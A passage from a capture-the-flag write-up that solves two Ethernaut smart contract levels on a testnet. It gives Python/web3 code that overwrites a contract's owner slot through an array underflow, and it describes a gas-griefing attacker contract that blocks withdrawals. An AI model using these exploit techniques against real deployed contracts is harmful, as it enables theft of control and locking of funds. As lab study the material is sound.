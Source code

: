 2. Call `retract()` 

```python
aliencodex.retract(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x2affc0a88a1ec555330db5735d68e7819159a18aa905d5fb93698aa9eaa05dd1

3. Obtain the `codex` hash with the position of the `_owner` state variable in storage

```python
position_one = encode_abi(['uint256'],[1]).hex()
owner_hash = hex(2**256 - int(web3.sha3(hexstr=f"0x{position_one}").hex(),16))
```

4. Call `revise()` passing in my address and the hash

```python
aliencodex.revise(owner_hash, acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x12237e71e4fe8c6dcb94a3b3dea913d30fc8c99cc96faa890bb5bb3e1bdcb7da

5. Confirm that my address is indeed the new owner

```python
owner_assertion = aliencodex.owner() == acc.address
print(f"Address {acc.address} is the owner of the contract: {owner_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x5aeb0a8299d1b6000a56b6952b15f88f9571781402a839b483cab48f37749998

***

## Denial

### Objectives

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

### Solution

The message call in the Denial contract does not specify an amount of gas, so we can define a `receive()` fallback function in our attacker contract that will be so expensive that unless the `partner` address is changed, it will not be possible to call the `withdraw()` function.

1. Code and deploy an attacker contract. The attacker should have a `receive()` fallback function that runs some set of instructions that are extremely expensive.

2. Make the attacker contract `partner` through the `setWithdrawPartner()` function.

If a specific amount to spend had been set, execution would not halt and the `transfer()` function in line 24 would have executed without issues.
